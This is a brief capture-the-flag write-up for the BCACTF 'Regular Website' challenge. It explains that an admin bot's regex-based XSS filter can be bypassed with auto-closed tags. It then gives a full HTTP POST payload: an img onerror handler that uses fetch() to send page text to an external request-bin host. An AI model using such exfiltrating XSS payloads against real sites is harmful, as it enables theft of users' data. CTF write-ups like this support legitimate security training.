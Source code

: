 # Regular Website
### Author: anli
https://objects.bcactf.com/bcactf2/regular-website/package.json
https://objects.bcactf.com/bcactf2/regular-website/server.ts
http://webp.bcactf.com:49155/

- Looks like a pretty regular XSS to a bot admin via trying to use a regexp for
  XSS detection
- We leverage auto-closed tags to bypass and exfil

```
POST / HTTP/1.1
Host: webp.bcactf.com:49155
Content-Type: application/x-www-form-urlencoded

text=<img src="err" onerror="fetch('https://enc4zxngr1e38.x.pipedream.net/'%2bdocument.querySelectorAll('p')[2].innerText)"
```
